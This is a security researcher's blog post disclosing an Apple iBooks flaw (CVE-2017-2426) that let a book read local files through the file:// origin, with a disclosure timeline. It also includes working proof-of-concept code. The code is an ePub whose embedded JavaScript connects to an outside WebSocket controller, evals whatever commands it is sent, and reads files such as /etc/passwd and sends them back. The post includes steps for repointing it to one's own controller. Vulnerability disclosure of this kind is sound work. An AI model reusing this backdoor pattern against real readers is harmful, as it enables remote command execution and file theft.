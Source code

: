 ```yaml
---
layout: post
title:  "This book reads you - using JavaScript"
date:   2017-03-27 12:00:00
categories: ibooks epub
---
```


> "Yes, books are dangerous. They should be dangerous - they contain ideas." - Pete Hautman

On a previous post about ePub parsers ([This book reads you - exploiting services and readers that support the ePub book format](/epub/2017/01/25/This-book-reads-you.html)), I mentioned using scripting capabilities in ePub to perform local attacks against users. 

Apple just released a fix for one issue I reported last year in iBooks that allowed access to files on a users system when a book was opened. iBooks on El Capitan would open an ePub using the file:// origin, which would allow an attacker to access the users file system when they opened a book. ([CVE-2017-2426](https://support.apple.com/en-us/HT207615))

To help demonstrate how this could be used to perform attacks against users, I added a WebSocket client to a book, so that all users who open the  book will connect back to a WebSocket controller server that will feed them arbitrary instructions. The WebSocket client in the ePub will allow access as long as the user has the book open (expectation is that it could be open for a long time, if the user is provided with something worth reading).

eg., Sending a book to a user:
![Image](/assets/ibooks/email.png)

iBooks connects to the WebSocket Controller when opening the book:
![Image](/assets/ibooks/ibooks.png)

iBooks connecting back to a WebSockets Controller. Local files can be retrieved if the reader is vulnerable to CVE-2017-2426 (file:// origin):
![Image](/assets/ibooks/controller.png)

Video demo of how this works (trying to type with one hand):

<p><iframe src="https://player.vimeo.com/video/210000247" width="640" height="360" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe></p>

This is the POC book if you want to try it yourself. You can open it in a reader like Apple iBooks or Adobe Digital Editions. 

<a href="/assets/controller/POC.epub">![Image](/assets/ibooks/ibooksico.png)</a>

Disclaimer: The POC connects to my controller, but I promise not to do anything bad. 😉

#### To modify it to point to your own controller:

* __curl https://s1gnalcha0s.github.io/assets/controller/POC.epub -o poc.epub__

* __unzip poc.epub; rm poc.epub__

eg., contents of poc.epub/EPUB/js/main.js 
{% highlight javascript %}
WebSocketController = 'ws://websocket-controller.herokuapp.com:80';

var socket = new WebSocket(WebSocketController, 'echo-protocol');
socket.onopen = function(evt) { onopen() };
socket.onmessage = function(msg) { onmessage(msg) };
socket.onclose = function(evt) { onerror() }

function onopen()
{
  message('Connected to WebSocket Controller: ' + WebSocketController);
}

function onerror()
{
  message('Unable to connect to WebSocket Controller: ' + WebSocketController);
}

function onmessage(msg)
{
  //just eval anything sent from the controller
  response = eval(msg.data);

  //send response back to controller
  socket.send(response);
}

function get(loc) {
  var xmlhttp = new XMLHttpRequest();
  xmlhttp.open('GET', 'file://' + loc,false);
  xmlhttp.send();
  
  //populate the message element
  message(xmlhttp.responseText);

  return xmlhttp.responseText;
}

function message(message) {
  document.getElementById("message").innerText = message;
  return message;
}

function showExfil() {
  get('/etc/passwd');
}
{% endhighlight %}

* __zip -r poc.epub *__

#### Node.js WebSocket Controller:

* curl https://s1gnalcha0s.github.io/assets/controller/server.js -o server.js
* npm install websocket
* node server.js

Disclosure timeline stuff:

* Dec 2016: Reported to Apple.
* Mar 2017: Fix release, and this post.

Shoutouts:

[@shhnjk](https://twitter.com/shhnjk) reported CVE-2017-2426 as well around the same time 👍. 
<br>[@mccabe615](https://twitter.com/mccabe615) ran a POC to help me confirm some issues independently. 

Thanks for reading. 👋 

[@craig](https://twitter.com/craig_arendt)